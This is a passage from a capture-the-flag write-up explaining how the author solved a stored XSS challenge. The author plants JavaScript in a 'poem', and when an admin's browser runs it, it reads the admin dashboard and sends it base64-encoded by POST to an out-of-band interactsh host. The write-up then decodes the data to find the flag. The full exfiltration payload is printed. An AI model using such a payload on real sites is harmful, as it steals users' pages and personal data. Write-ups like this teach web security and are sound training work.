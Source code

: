- Here's the payload I'll send in my poem. This JavaScript code will make a request to the administrator's dashboard (`/poem/`) and return the HTML code encoded in base64 via a POST request to a domain under my control (in this case, I used the Open-Source Solution for OOB Testing, `interact.sh`). The purpose is to search for exclusive functionalities and personal information (section `About me`) of the user `admin`.

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612232452.png)

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612232452.png)


```html
<script>
try {
		var xhr = new XMLHttpRequest();
		xhr.open('GET', `http://172.20.0.1:8083/poem/`, false);
		xhr.send();
		var msg = xhr.responseText;
} catch (error) {
	var msg = error;
}

var exfil = new XMLHttpRequest();
exfil.open("POST", "http://qsqrdohxfwvjszlwdlnupz5lv1q0nup86.oast.fun/exfil", false);
exfil.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
exfil.send('data=' + btoa(msg));
</script>
```

- At `app.interactsh.com`, we filter for HTTP requests.

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612232834.png)

- As expected, we received 3 HTTP requests. The first is when we update our poem, and the second corresponds to when we send our poem to the user `admin`. This happens because after the described processes, there is a redirection to the site `/poem/`, causing the JavaScript code to be executed by our own browser. This can be easily observed using the `Burp Suite` proxy.

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612233503.png)

- The third request we received is evidence that the JavaScript code is being executed by someone else's browser. I'll decode the base64-encoded string and review its content.

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612234316.png)

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612234336.png)

- After decoding the base64-encoded string, we can confirm that this request is made by the browser of the user `admin`, allowing us to exfiltrate their personal information and potentially discover new functionalities. With this done, I can see the flag in the `About me` field!

```bash
echo -n "<base64_here>" | base64 -d | sponge admin_dash.html
cat admin_dash.html
```
